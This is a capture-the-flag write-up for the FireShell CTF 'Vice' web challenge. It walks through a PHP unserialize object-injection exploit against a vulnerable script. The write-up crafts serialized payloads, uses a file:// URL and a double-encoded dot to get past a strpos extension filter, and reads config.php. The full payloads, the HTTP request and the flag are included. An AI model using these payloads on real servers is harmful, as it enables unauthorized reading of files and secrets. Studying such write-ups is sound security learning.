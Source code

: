 # FireShell CTF – Vice

* **Category:** web
* **Points:** 269

## Challenge

> [http://68.183.31.62:991/](http://68.183.31.62:991/)

## Solution

The challenge will give you a PHP script.

```php
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}
if(isset($_GET["gg"])) {
    @unserialize($_GET["gg"]);
} else {
    highlight_file(__FILE__);
}
```

The flag is probably stored into `config.php` file, hence it must be printed via the **curl** execution.

To perform this, the `doit` method must be executed. That method is invoked into `__destruct()` function if present in the `$method` attribute of the destructed object.

The `unserialize` method must be abused to craft an object with desired parameters.

To serialize an object that can be used for the exploit, the following script can be executed.

```php
class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;
}

print serialize(new SHITS);
```

It will print the following.

```
O:5:"SHITS":5:{s:10:"SHITSurl";N;s:13:"SHITSmethod";N;s:11:"SHITSaddr";N;s:11:"SHITShost";N;s:11:"SHITSname";N;}
```

Now you have to customize the script in order to exploit the challenge.

First of all, the `$method` attribute must be set to `doit`.

```php
class SHITS{
  private $url;
  private $method = "doit";
  private $addr;
  private $host;
  private $name;
}

print serialize(new SHITS);
```

The next attribute to set is `$url`. Analyzing the script, you can discover the presence of a check on localhost address. To bypass this check, the URL could be crafted based on the default path for web sites on Apache servers: `file:///var/www/html/config.php`.

```php
class SHITS{
  private $url = "file:///var/www/html/config.php";
  private $method = "doit";
  private $addr;
  private $host;
  private $name;
}

print serialize(new SHITS);
```

At this point, another check present in the script must be bypassed. The secondo checks is referred to the file extension; in particular, the extension `.php` will be blocked.

Luckily, the check is performed via `strpos` and there is a well-known strange behavior, based on which double URL-encoded chars are not considered by `strpos` but are considered valid by **curl** ([https://bugs.php.net/bug.php?id=76671&edit=1](https://bugs.php.net/bug.php?id=76671&edit=1)). So it is sufficient to replace the `.` char with `%252e`.

```php
class SHITS{
  private $url = "file:///var/www/html/config.php";
  private $method = "doit";
  private $addr;
  private $host;
  private $name;
}

print str_replace(".", "%252e", serialize(new SHITS));
```

The produced payload will be the following.

```
O:5:"SHITS":5:{s:10:"SHITSurl";s:31:"file:///var/www/html/config%252ephp";s:13:"SHITSmethod";s:4:"doit";s:11:"SHITSaddr";N;s:11:"SHITShost";N;s:11:"SHITSname";N;} 
```

After this operation the payload must be modified according to the `str_replace`.

The string `file:///var/www/html/config.php` is composed by 31 chars, with the replace operation it will become `file:///var/www/html/config%252ephp`; the GET operation performed server side will automatically perform a URL decode translating `%25` to `%`, hence the string will be `file:///var/www/html/config%2ephp` composed by 33 chars.

The length of the string into the payload must be updated accordingly.

```
O:5:"SHITS":5:{s:10:"SHITSurl";s:33:"file:///var/www/html/config%252ephp";s:13:"SHITSmethod";s:4:"doit";s:11:"SHITSaddr";N;s:11:"SHITShost";N;s:11:"SHITSname";N;}
```

At this point, the payload can be URL-encoded with the following script (don't forget to update the length of the URL string).

```php
class SHITS{
  private $url = "file:///var/www/html/config.php";
  private $method = "doit";
  private $addr;
  private $host;
  private $name;
}

print str_replace(".", "%252e", urlencode(serialize(new SHITS)));
```

The payload will be the following.

```
O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D
```

The GET request and response will be the following.

```
GET /?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D HTTP/1.1
Host: 68.183.31.62:991
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=ugifl5ke3p183slvcbcs6r5054
Upgrade-Insecure-Requests: 1

HTTP/1.1 200 OK
Date: Sun, 27 Jan 2019 16:19:07 GMT
Server: Apache/2.4.7 (Ubuntu)
X-Powered-By: PHP/5.5.9-1ubuntu4.26
Vary: Accept-Encoding
Content-Length: 137
Connection: close
Content-Type: text/html

<?php
if($_SERVER['REMOTE_ADDR'] !== '::1' || $_SERVER['REMOTE_ADDR'] !== '127.0.0.1'){
echo "aaawn";
}else{
$flag ="F#{wtf_5trp0s_}";
}
```

The flag is the following.

```
F#{wtf_5trp0s_}
```